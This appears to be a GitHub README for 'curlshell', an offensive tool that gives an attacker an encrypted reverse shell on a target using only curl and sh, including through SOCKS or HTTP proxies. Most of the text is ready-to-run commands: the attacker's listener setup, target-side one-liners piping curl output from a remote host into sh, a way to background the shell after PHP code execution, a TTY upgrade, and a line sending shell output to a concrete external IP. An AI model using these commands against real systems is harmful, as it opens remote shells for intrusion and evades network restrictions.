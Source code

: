 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell); slightly enhanced)

An encrypted reverse TCP shell through a proxy (using only cURL).

It allows an attacker to access a remote shell (sh) when the remote system can access the Internet via a Proxy only (and no other binaries can be installed or executed). It only needs `curl` and `sh`. The target does not need to have python.


Generate a SSL Certificate (on your system; not the target):
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener (your system)
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | sh
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | sh
```

# Advanced Tricks
**Trick #1 - Spawn a TTY shell**
```sh
stty intr undef ;
./curlshell.py --shell "script -qc '/bin/bash -il' /dev/null" --listen-port 8080 ; stty intr ^C
```

**Trick #2 - Start the reverse shell as a daemon / background process**  
This is useful when you have remote execution via PHP:
```sh
# On the target:
(curl -sfL http://1.2.3.4:8080 | sh &>/dev/null &)
```

# How it works
The first cURL request pipes this into a target's shell:
```sh
exec curl -X POST -sN http://217.138.219.220:30903/input \
    | sh 2>&1 | curl -s -T - http://217.138.219.220:30903/stdout
```

This command starts two cURL processes and connects another shell's input and output these two cURL. HTTP's 'chunked transfer' (`-T`) does the rest.

---
More at https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet.
